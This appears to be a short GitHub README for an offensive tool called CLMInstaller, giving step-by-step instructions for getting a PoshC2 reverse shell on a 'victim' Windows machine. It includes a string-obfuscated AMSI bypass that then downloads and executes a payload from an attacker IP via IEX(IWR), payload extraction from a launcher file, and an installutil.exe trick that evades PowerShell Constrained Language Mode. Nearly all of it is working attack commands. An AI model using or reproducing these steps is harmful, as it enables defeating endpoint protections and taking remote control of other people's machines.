 # CLMInstaller

Example for a Posh-Reverse-Shell
```
# On Victim
echo "192_168_45_209_80_finance" > C:\Windows\Tasks\finances.txt
```
Create a file `finance` that will be being hosted on your webserver.
```
ip="192.168.45.172"; 
filename="payday.txt";

# Create payday.txt
cat /var/poshc2/rastalabs/payloads/Launcher.hta | grep -oP "(?<=hidden -e ).*(?=',)" | base64 -d | iconv -t utf-8 -f utf-16le > ./$filename

# Create finance 
echo -ne '$t = [Runtime.InteropServices.Marshal];$a = [Ref].Assembly.GetType("Sy" + "st" + "em.M" + "ana" + "gemen" + "t.Au" + "tom" + "ati" + "on." + "Am" + "si" + "Ut" + "ils"); $t::WriteInt32($a.GetField("am" + "si" + "Con" + "text",[Reflection.BindingFlags]"NonPublic,Static").GetValue($null),0x41414141);IEX(IWR -UseBasicParsing http://'$ip':8080/'$filename')' > finance
```

And then run the following command on the Victim:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\CLMInstaller.exe
```

